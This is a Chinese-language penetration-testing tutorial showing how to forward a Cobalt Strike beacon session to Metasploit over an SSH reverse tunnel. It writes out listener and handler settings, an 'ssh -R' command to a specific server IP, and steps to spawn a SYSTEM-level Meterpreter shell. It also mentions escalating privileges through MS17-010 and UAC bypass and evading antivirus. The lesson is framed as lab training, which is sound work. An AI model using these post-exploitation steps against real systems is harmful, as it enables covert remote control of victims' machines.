# 网络安全教程：P75：CS联动MSF之实战演习 🎯





在本节课中，我们将学习如何将Cobalt Strike（CS）生成的会话（Session）转发到内网中的Metasploit Framework（MSF），以实现更强大的后渗透利用。这个过程的核心是使用SSH隧道进行端口转发，以解决公网CS服务器与内网MSF无法直接通信的问题。

## 概述与问题分析

上一节我们介绍了Cobalt Strike的基本操作。本节中我们来看看如何将CS的会话与MSF联动。在实战中，我们常会遇到这种情况：CS服务器部署在公网，而我们的MSF渗透测试环境位于内网。公网无法直接访问内网，因此需要建立一条通信隧道。


如图所示，代理连接中断，我们需要重新建立从CS到MSF的隧道连接。关键在于确保CS监听器的流量能正确转发到内网MSF的处理器（handler）。

## 核心步骤详解

以下是实现CS会话转发到MSF的完整流程。



### 第一步：在Cobalt Strike上创建监听器



首先，我们需要在公网的CS服务器上创建一个监听器，用于接收来自受害主机的连接。

1.  在CS客户端，导航至 `Cobalt Strike` -> `Listeners`。
2.  点击 `Add` 按钮。
3.  设置 `Name` 为 `MSF3`（可自定义）。
4.  选择 `Payload` 为 `windows/beacon_http/reverse_http`（或其他HTTP反向负载）。
5.  设置 `Host` 为CS服务器的公网IP地址，例如 `39.108.68.207`。
6.  设置 `Port` 为一个未被占用的端口，例如 `7777`。
7.  点击 `Save`。此时，监听器列表中将出现 `MSF3`。

### 第二步：在内网MSF上创建处理器

接着，在内网的Kali Linux（运行MSF）上，创建一个与CS监听器配置匹配的处理器。

1.  启动MSF控制台：
    ```bash
    msfconsole
    ```
2.  使用 exploit/multi/handler 模块：
    ```bash
    use exploit/multi/handler
    ```
3.  设置与CS监听器对应的Payload。由于CS使用的是HTTP反向负载，MSF应设置为：
    ```bash
    set payload windows/meterpreter/reverse_http
    ```
4.  配置本地主机地址（LHOST）为Kali的内网IP，例如 `192.168.123.128`。
    ```bash
    set LHOST 192.168.123.128
    ```
5.  配置本地端口（LPORT）与CS监听器端口一致，即 `7777`。
    ```bash
    set LPORT 7777
    ```
6.  运行处理器，开始监听：
    ```bash
    run
    ```
    执行后，MSF将在Kali的7777端口上等待连接。

### 第三步：建立SSH隧道进行端口转发



这是最关键的一步，用于将公网CS监听器7777端口的流量，转发到内网Kali的7777端口。



1.  首先，检查并关闭可能冲突的旧SSH隧道进程。查看所有网络连接：
    ```bash
    netstat -tulnp
    ```
    找到相关SSH进程的PID（例如9517），然后结束它：
    ```bash
    kill 9517
    ```
2.  执行SSH隧道转发命令。在Kali上运行：
    ```bash
    ssh -R 0.0.0.0:7777:127.0.0.1:7777 root@39.108.68.207
    ```
    *   `-R`：表示远程端口转发。
    *   `0.0.0.0:7777`：在远程主机（CS服务器）上监听所有接口的7777端口。
    *   `127.0.0.1:7777`：将流量转发到本机（Kali）的7777端口。
    *   `root@39.108.68.207`：CS服务器的SSH登录凭证。
3.  输入CS服务器的root用户密码。成功后，隧道即建立。再次使用 `netstat -tulnp` 命令，可以在CS服务器上看到7777端口正在被SSH进程监听。


### 第四步：从CS会话生成Meterpreter



隧道建立后，便可以将CS中已获取的会话（Session）迁移到MSF的Meterpreter。

1.  在CS的 `Beacons` 视图下，右键点击一个已上线的、最好已提权至 `SYSTEM` 的会话。
2.  选择 `Spawn`。
3.  在弹出的列表中，选择我们之前创建的监听器 `MSF3`，然后点击 `Choose`。




4.  稍作等待，由于使用的是分阶段（Staged）Payload，需要传输第二阶段代码。成功后，在MSF控制台将看到新的Meterpreter会话建立。


5.  在MSF中，可以验证会话并执行命令：
    ```bash
    sessions -i 1 # 交互式连接会话1
    getuid # 查看当前用户权限
    shell # 获取系统Shell
    ```



## 注意事项与技巧

*   **权限选择**：尽量选择已提权至 `SYSTEM` 的CS会话来生成Meterpreter，以获得最高权限。使用普通用户会话也可以，但后续操作会受到限制。
*   **提权方法**：在CS中提权并非“一键完成”，需要利用目标系统存在的漏洞（如MS17-010、UAC绕过等）。可以通过 `Access` -> `Elevate` 选择相应的漏洞利用脚本。
*   **环境准备**：建议初学者购买一台VPS（云服务器）来搭建CS服务端进行练习。国内外云服务商常有学生优惠或免费试用活动。
*   **杀毒软件**：生成的Payload很可能被杀毒软件（包括Windows Defender）拦截。在实战中需要考虑免杀技术。



## 课后作业与总结





本节课我们一起学习了如何通过SSH隧道，将Cobalt Strike的会话转发至内网的Metasploit Framework，从而结合两个工具的优势进行深度渗透。

**课程总结**：
1.  **核心逻辑**：解决网络隔离问题，通过 `SSH -R` 实现远程端口转发。
2.  **配置关键**：CS监听器与MSF处理器的Payload类型、端口必须严格对应。
3.  **操作流程**：`创建CS监听器` -> `配置MSF处理器` -> `建立SSH隧道` -> `Spawn生成Meterpreter`。

**课后作业**：
1.  在您的实验环境中，完整复现本节课所讲的CS联动MSF流程。
2.  尝试完成一个完整的渗透测试实验，例如“和敏信安实验室”提供的靶场环境，将所学技术应用于实践。

**最后强调**：网络安全技术重在动手实践。只有反复操作、排错，才能真正理解流程并掌握技能。如果遇到问题，欢迎在交流群中提问。



